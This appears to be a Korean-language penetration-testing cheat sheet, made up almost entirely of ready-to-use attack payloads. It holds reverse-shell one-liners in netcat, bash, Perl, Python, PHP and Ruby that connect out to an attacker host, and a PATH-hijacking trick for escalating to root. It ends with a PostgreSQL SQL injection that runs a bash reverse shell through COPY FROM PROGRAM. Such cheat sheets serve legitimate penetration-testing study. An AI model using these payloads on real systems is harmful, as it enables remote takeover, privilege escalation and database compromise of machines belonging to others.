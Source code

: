reverse shell
#
`listener`
```
rlwrap nc -nvlp <port>
```
- l: 연결을 듣는다
- v: 상세수준을 설정
- n: dns를 통해 호스트 이름을 확인하지 않는다.
- p: 사용할 포트를 지정한다.

#
`Netcat`
```
nc -e /bin/sh 10.0.0.1 1234
```
잘못된 버전을 사용할 경우 다음과 같이 리버스 셸을 다시 사용할 수 있다

#
`Bash`
```
bash -i >& /dev/tcp/10.0.0.1/1234 0>&1
```
#
`Perl`
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
#
`python`
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
#
`php`
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
#
`ruby`
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
#
locate
```
/usr/share/webshells/php/php-reverse-shell.php
```
#
`셸 안정화`
```
script /dev/null -c bash
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
```

`대화식 셸`
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```
#
`절대 경로 대신 상대 경로를 사용하여 cat binary를 호출하는 것을 볼 수 있다. 악의적인 cat을 만들고 현재 작업 디렉토리를 포함하도록 경로를 수정하면 잘못된 구성을 악용할 수 있으며 권한을 루트로 높일 수 있다.`
```
export PATH=/tmp:$PATH
cd /tmp
echo '/bin/sh' > cat
chmod +x cat
```

#
`sql injection`
```
' UNION SELECT NULL, NULL, NULL , NULL, VERSION() --
```
이 SQL 문을 사용하면 이 웹 사이트의 백엔드 데이터베이스가 Postgre임을 알 수 있습니다.SQL 버전 11.5. "Google University"에서 어떤 종류의 reverse shell을 얻을 수 있는지 알아보겠습니다. 우리는 Postgre에서 발견된 exploit에 대해 알게 되었다.버전 11.5의 경우 SQL 버전 9.3이 아직 살아 있습니다. * 메타스플로이트를 사용

`![image](https://user-images.githubusercontent.com/61821641/150574663-24469d46-8cb2-4bc2-89ed-fdd4d3af03c9.png)


`이어서 reverse shell`

```
'; CREATE TABLE cmd_exec(cmd_output text); --
'; COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/<my ip>/1234 0>&1'''; -- 
```

![image](https://user-images.githubusercontent.com/61821641/150575592-27443005-8908-470b-83ec-0d977f32a386.png)

#
#
reference

- [reverse shell php](https://github.com/BlackArch/webshells)
- [reverse shell payload](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [reverse shell payload](https://highon.coffee/blog/reverse-shell-cheat-sheet/)